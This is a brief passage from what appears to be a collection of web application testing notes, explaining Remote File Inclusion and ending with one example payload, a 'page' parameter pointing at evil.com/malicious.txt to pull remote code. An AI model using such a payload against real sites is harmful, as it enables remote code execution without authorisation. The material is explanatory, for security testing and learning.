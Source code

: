 
---

### 25. **Web_Application_Testing/File_Inclusion/RFI.md**

```markdown
# Remote File Inclusion (RFI)

## Overview
Remote File Inclusion (RFI) allows attackers to include remote files from other servers, which can lead to arbitrary code execution.

## Techniques
- **Remote File Inclusion** - Including files from external sources.

## Example
RFI payload:
```plaintext
?page=http://evil.com/malicious.txt

